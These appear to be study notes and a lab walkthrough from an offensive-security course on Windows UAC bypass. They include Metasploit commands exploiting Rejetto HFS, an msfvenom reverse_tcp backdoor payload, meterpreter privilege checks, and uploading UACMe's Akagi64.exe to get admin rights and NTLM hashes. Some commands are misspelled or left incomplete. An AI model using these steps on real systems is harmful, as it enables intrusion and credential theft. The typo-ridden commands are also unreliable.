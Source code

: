 #### UAC
	- User Account Control
	- Prevent change to operating system
	- Ensures change to the os is approved by someone of the admin group
	- Non-privileged user will be prompted to give a admin credentials
	- Bypass UAC with exploits as a non-privileged user

#### Bypassing UAC
	- Will need access to user that is part of the admin group
	- Admin privileges will prompt user for confirmation
	- Intergirty level from low to high
	- Tools used depends on the windows target

#### Bypassing UAC with UACMe
	- open source software
	- privilege escalation tool
	- Used for Windows 7 to Windows 10
	- Executes maclicious payloads on windows target using the AuteElevate 
	- The repo has more than 60 exploits

#### Tools

#### Commands

Check net users Windows
```
net users
```

Check users of admin group Windows
```
net localgroup administrators
```

Exploit hfs
```
msfconsole
setg RHOSTS target_ip
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

Get information on windows machine through meterpreter
```
sysinfo
getuid
```

Change meterpreter windows version 
```
pgrep explorer
migrate 2448
```


Check if user has privileged in meterpreter
```
getprivs
```

Create payload
```
msfvenom -p windows/meterpreter/reverse_tcp  LHOST local_host  LPORT local port -f exe > backdoor.exe
```

Execute and connect payload with mfsoncole
```
mfsconsole 
use windows/meterpreter/reverse_tcp 
set RHOSTS 
set RPORT
```

Upload and bypass UAC
```
Upload 
```

#### Lab

A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.

Then, bypass [UAC](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)using the [UACME](https://github.com/hfiref0x/UACME) tool. 

**UACME:**

- Defeat Windows User Account Control (UAC) and get Administrator privileges.
- It abuses the built-in Windows AutoElevate executables.
- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.
- Developed by https://twitter.com/hFireF0X
- Written majorly in C, with some code in C++

**Objective:**Gain the highest privilege on the compromised machine and get admin user NTLM hash.

```
nmap -p- -sS -sV -T 4 -v 10.4.26.170


80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

```

Exploit rejetto with msfconsole 
```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
setg rhosts 10.4.26.170
exploit 
```

Use msfvenom payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4000 -f exe > backdoor.exe
```

Upload UACME and backdoor executable to target machine
```
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```